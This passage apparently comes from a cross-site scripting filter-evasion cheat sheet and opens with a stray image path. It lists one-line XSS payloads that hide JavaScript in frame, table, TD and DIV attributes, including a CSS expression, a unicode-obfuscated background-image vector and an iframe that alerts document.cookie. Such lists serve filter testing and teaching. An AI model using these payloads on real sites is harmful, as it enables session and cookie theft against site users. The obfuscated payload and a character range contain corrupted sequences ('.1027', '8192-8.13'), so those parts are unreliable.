     `<IFRAME SRC=# onmouseover="alert(document.cookie)"></IFRAME>`

## FRAME

Frames have the same sorts of XSS problems as iframes

    `<FRAMESET><FRAME SRC="javascript:alert('XSS');"></FRAMESET>`

## TABLE

    `<TABLE BACKGROUND="javascript:alert('XSS')">`

### TD

Just like above, TD's are vulnerable to BACKGROUNDs containing
JavaScript XSS vectors:

    `<TABLE><TD BACKGROUND="javascript:alert('XSS')">`

## DIV

### DIV background-image

    `<DIV STYLE="background-image: url(javascript:alert('XSS'))">`

### DIV background-image with unicoded XSS exploit

This has been modified slightly to obfuscate the url parameter. The
original vulnerability was found by Renaud Lifchitz as a vulnerability
in Hotmail:

    `<DIV STYLE="background-image:\0075\0072\006C\0028'\006a\0061\0076\0061\0073\0063\0072\0069\0070\0074\003a\0061\006c\0065\0072\0074\0028.1027\0058.1053\0053\0027\0029'\0029">`

### DIV background-image plus extra characters

Rnaske built a quick XSS fuzzer to detect any erroneous characters that
are allowed after the open parenthesis but before the JavaScript
directive in IE and Netscape 8.1 in secure site mode. These are in
decimal but you can include hex and add padding of course. (Any of the
following chars can be used: 1-32, 34, 39, 160, 8192-8.13, 12288,
65279):

    `<DIV STYLE="background-image: url(javascript:alert('XSS'))">`

### DIV expression

A variant of this was effective against a real world cross site
scripting filter using a newline between the colon and "expression":

    `<DIV STYLE="width: expression(alert('XSS'));">`

## Downlevel-Hidden block
